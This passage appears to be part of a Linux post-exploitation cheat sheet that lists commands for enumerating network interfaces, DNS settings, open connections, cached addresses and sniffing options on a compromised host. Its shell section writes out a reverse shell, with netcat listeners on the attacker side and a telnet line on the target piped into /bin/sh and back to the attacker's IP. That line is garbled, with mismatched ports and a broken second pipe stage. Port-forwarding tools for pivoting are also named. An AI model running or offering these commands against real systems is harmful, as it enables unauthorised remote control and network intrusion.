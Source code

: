 ## Enumeration of communications and networking

- What NICs does the system have?  Is it connected to another network?
	
	  /sbin/ifconfig -a
	  cat /etc/network/interfaces
	  cat /etc/sysconfig/network
	
- What are the network configuration settings?  What can you find out about this network? DHCP server? DNS server? Gateway?

	  cat /etc/resolv.conf
	  cat /etc/sysconfig/network
	  cat /etc/networks
	  iptables -L
	  hostname
	  dnsdomainname	

- What other users and hosts are communicating with the system?
	
	  lsof -i
	  lsof -i :80
	  grep 80 /etc/services
	  netstat -antup
	  netstat -antpx
	  netstat -tulpn
	  chkconfig --list
	  chkconfig --list | grep 3:on
	  last
	  w	

- Are there any cached IP or MAC addresses?
	
	  arp -e
	  route
	  /sbin/route -nee
	
- Is packet sniffing possible, and if so what can be seen?
	
	  tcpdump tcp dst [ip] [port]
	  tcpdump tcp src [ip] [port]
	
- Have you got a shell? Can you interact with the system

  http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
	
	  nc -lvp 4444    # Attacker. Input (Commands)
	  nc -lvp 4445    # Attacker. Ouput (Results)
	  telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

- Is port forwarding possible? Redirect and interact with traffic from another view.
	
  http://www.boutell.com/rinetd/
  http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
  http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip
		